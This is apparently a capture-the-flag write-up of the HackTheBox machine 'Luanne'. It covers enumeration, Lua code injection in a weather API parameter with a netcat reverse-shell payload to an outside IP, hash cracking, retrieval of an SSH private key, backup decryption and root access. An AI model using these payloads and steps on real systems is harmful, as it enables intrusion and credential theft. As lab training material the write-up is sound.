 ```yaml
---
title: Luanne
author:
  name: eng4ge
  link: https://github.com/an9k0r
date: 2022-09-22 11:33:00 +0200
categories: [HackTheBox, Other]
tags: [NetBSD,Bozohttpd,Lua,Default Credentials,Code Injection,NGINX,Password Cracking,Password Reuse,Weak Credentials]
math: true
mermaid: true
image:
  src: /assets/images/1df44abad6a5755b7f9edd7675bbca3622df01287e2eeec05216dca208d4e0bc.png
  width: 694
  height: 515
  alt: image alternative text
---
```

**Luanne is a easy NetBSD box, which starts command injection. Privilege escalation is done by enumerating backups and decrypting those** 

# ENUMERATION
## NMAP
```
Nmap scan report for 10.10.10.218
Host is up (0.038s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.0 (NetBSD 20190418-hpn13v14-lpk; protocol 2.0)
| ssh-hostkey: 
|   3072 20:97:7f:6c:4a:6e:5d:20:cf:fd:a3:aa:a9:0d:37:db (RSA)
|   521 35:c3:29:e1:87:70:6d:73:74:b2:a9:a2:04:a9:66:69 (ECDSA)
|_  256 b3:bd:31:6d:cc:22:6b:18:ed:27:66:b4:a7:2a:e4:a5 (ED25519)
80/tcp   open  http    nginx 1.19.0
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/weather
|_http-server-header: nginx/1.19.0
|_http-title: 401 Unauthorized
9001/tcp open  http    Medusa httpd 1.12 (Supervisor process manager)
| http-methods: 
|_  Supported Methods: HEAD POST OPTIONS
|_http-server-header: Medusa/1.12
Service Info: OS: NetBSD; CPE: cpe:/o:netbsd:netbsd
```

The `robots.txt` is present and has `/weather` entry in it!

## GoBuster
```
luka@kali:~$ gobuster dir -u http://luanne.htb/weather -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -k 
-x php,bak,txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://luanne.htb/weather
[+] Threads:        50
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,bak,txt
[+] Timeout:        10s
===============================================================
2021/01/27 16:19:25 Starting gobuster
===============================================================
/forecast (Status: 200)
```
## WebServer
	
![picture 2](/assets/images/a2912c4e2f718198aecd86192673a84e98af4ff9cfb0e7bafa520d672f6a0b88.png)  

There is aparently some weather forecast API-like application running.


![picture 3](/assets/images/49fa11fb8b4b16453e77eea087a50cbc530b3b763740514755b182db4cc0b087.png)  	

Lets check city parameter with list value:
![picture 5](/assets/images/76d6badbd58425c927d1e17f2f4a63a4a231c050d995e5836bb7828b1495c957.png)  

![picture 4](/assets/images/e5c23ff07fa1be1d7fd31e237a03fc8df759bfa3d9bd1b3840f7fb18e9ec4cd8.png)  

Injection seems to work, and so should command chaining

By switching to POST it is possible to see the error:

```
luka@kali:~/htb/luanne$ curl -d "city='" http://luanne.htb/weather/forecast
<br>Lua error: /usr/local/webapi/weather.lua:49: attempt to call a nil value
```
# Exploitation
## Command Injection
Following payload was used (BSD):
```
http://luanne.htb/weather/forecast?city=London%27); require('os');os.execute('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.22 4446 >/tmp/f');+--+
```

# Privilege Escalation #1 to r.michaels
## Enumeration
Following was found by linpeas.sh
![picture 7](/assets/images/24092cad964bbf45a14ffa3c377a54652d314205dbd255573a6dada3be14be10.png)

Credentials were found in `/var/www/.htpasswd `:
```
$ cat /var/www/.htpasswd 
webapi_user:$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0
```

## Hashcat
![picture 6](/assets/images/c3f74cb21110488ac518080e0ed90c38fea65fe2113382c1a94970a82185d733.png)  

Hash has been cracked using hashcat.

Logging in using the credentials

![picture 8](/assets/images/98a4502dfadf181d9871a6013e9672b401bedd9717aed8fadae8270e76810274.png)  

Supervisor App is actually not vulnerable!

# Privilege Escalation #2 to root
## Getting Shell as r.michaels
Weirdly process is running on port 3001.
We can login using basic credentials and fetch the home directory from `r.michaels`:
```
$ curl --user webapi_user:iamthebest http://127.0.0.1:3001/~r.michaels/id_rsa

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAvXxJBbm4VKcT2HABKV2Kzh9GcatzEJRyvv4AAalt349ncfDkMfFB
...SNIP
189zIG0dHfVDVQBCXd2Rng15eN5WnsW2LL8iHL25T5K2yi+hsZHU6jJ0CNuB1X6ITuHhQg
QLAuGW2EaxejWHYC5gTh7jwK6wOwQArJhU48h6DFl+5PUO8KQCDBC9WaGm3EVXbPwXlzp9
9OGmTT9AggBQJhLiXlkoSMReS36EYkxEncYdWM7zmC2kkxPTSVWz94I87YvApj0vepuB7b
45bBkP5xOhrjMAAAAVci5taWNoYWVsc0BsdWFubmUuaHRiAQIDBAUG
-----END OPENSSH PRIVATE KEY-----
```
Let's login using `r.michaels`'s private key:
```
luka@kali:~/htb/luanne$ ssh -i ./id_rsa r.michaels@10.10.10.218
The authenticity of host '10.10.10.218 (10.10.10.218)' can't be established.
ECDSA key fingerprint is SHA256:KB1gw0t+80YeM3PEDp7AjlTqJUN+gdyWKXoCrXn7AZo.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.218' (ECDSA) to the list of known hosts.
Last login: Fri Sep 18 07:06:51 2020
NetBSD 9.0 (GENERIC) #0: Fri Feb 14 00:06:28 UTC 2020

Welcome to NetBSD!

luanne$ id
uid=1000(r.michaels) gid=100(users) groups=100(users)
```
## Decrypting backups
`devel_backup-2020-09-16.tar.gz.enc ` was found in the `.gnupg` home directory from `r.mihaels`. It can be decrypted using `netpgp`
```
luanne$ netpgp --decrypt devel_backup-2020-09-16.tar.gz.enc --output /tmp/devel_backup-2020-09-16.tar.gz         	
signature  2048/RSA (Encrypt or Sign) 3684eb1e5ded454a 2020-09-14 
Key fingerprint: 027a 3243 0691 2e46 0c29 9f46 3684 eb1e 5ded 454a 
uid              RSA 2048-bit key <r.michaels@localhost>
```
And there we can find another `.htapasswd`.

![picture 9](/assets/images/61e168bd6a7899e3c90ceafd3cddc0b94efb0d0bf23948a1ecbfb91463ca9af8.png)  

Which means another password that may be cracked:

![picture 10](/assets/images/02f540aa5ec22397fde85851feb5c1d332912e45995c68771f42e6c063098425.png)  

Password was cracked and works for root user (need use doas since su doesn't work)
```
luanne$ doas -u root /bin/sh
Password:
sh: Cannot determine current working directory
# id
uid=0(root) gid=0(wheel) groups=0(wheel),2(kmem),3(sys),4(tty),5(operator),20(staff),31(guest),34(nvmm)
# cd /root
# cat root.txt
7a9b5c2************3675f66
```
